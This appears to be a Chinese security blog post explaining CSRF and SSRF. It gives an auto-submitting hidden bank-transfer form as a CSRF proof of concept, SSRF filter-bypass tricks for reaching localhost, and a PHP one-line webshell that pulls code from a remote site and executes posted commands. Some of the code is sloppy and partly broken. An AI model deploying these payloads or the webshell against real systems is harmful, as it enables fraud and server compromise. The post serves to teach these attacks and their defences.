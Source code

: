 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: CSRF与SSRF原理
---
```

## Csrf跨站请求伪造
  Csrf利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。   

CSRF攻击攻击原理及过程如下：  
       1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；  
       2.在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；  
       3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；  
       4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；       
       5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。   


例如访问内容为：


	<img src="恶意链接地址" border="0" style="display:none;"/> 


	<h1>404<h1> 


	<h2>file not found.<h2> 
    

若网站使用post发送请求，那么攻击方可以修改页面为：

      <html> 
        <head> 
          <script type="text/javascript"> 
            function steal() 
            { 
                     iframe = document.frames["steal"]; 
                     iframe.document.Submit("transfer"); 
            } 
          </script> 
        </head> 

        <body onload="steal()"> 
          <iframe name="steal" display="none"> 
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php"> 
              <input type="hidden" name="toBankId" value="11"> 
              <input type="hidden" name="money" value="1000"> 
            </form> 
          </iframe> 
        </body> 
      </html> 


csrf防御策略:  
1.验证 HTTP Referer 字段  
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。  
2.在请求地址中添加 token 并验证  
 	CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。  
3.设置跨域权限  	
4.提交验证码    
在表单中添加一个随机的数字或字母验证码。通过强制用户和应用进行交互。来有效地遏制CSRF攻击。

## SSRF（Server-Side Request Forgery）服务端请求伪造
SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）应用需要调用其他服务器的资源，需要传入一个目标服务器地址去请求，但是没有对目标地址做过滤与限制，导致攻击者可借助服务端实现访问其本无权访问的URL。攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，所以SSRF的一大利用是探测内网端口开放信息。  

ssrf出现在：  
1.通过url分享网页内容   
2.转码服务   
3.在线翻译   
4.图片的加载与下载   
5.在url关键字寻找：share,wap,url,link,src,sourse,target,u,3g,display,sourceURl,imgurl   

例如：  
www.xxx.com/a.php?image=http://www.abc.com/1.jpg  
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？  
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码  

当访问的内网地址http://127.0.0.1/ 被过滤的时候，可以尝试一下几种方式:    
1.@  
http://abc@127.0.0.1  
2.添加端口号    
http://127.0.0.1:8080    
3.短地址  
http://dwz.cn/11SMa  
4.ip地址转换成进制来访问  
115.239.210.26 = 16373751032   

 外网利用过程：   
1.在b站上传一句话木马  

    <?php 
    $s=$_POST[‘url’] 
    $s=file_get_contents($s) 
    $s($_POST[‘cmd’]); 
    > 

2.在a站保存一个txt文件，内容为 assert  
3.访问b站的木马，上传url=a站ip的txt文件将assert读取，脚本解释器将它解释为assert函数，&cmd={phpinfo();可以继续添加命令system("ipconfig")} 让assert执行cmd实现获取php信息的木马执行。（//这就是利用服务端远程文件读取）  

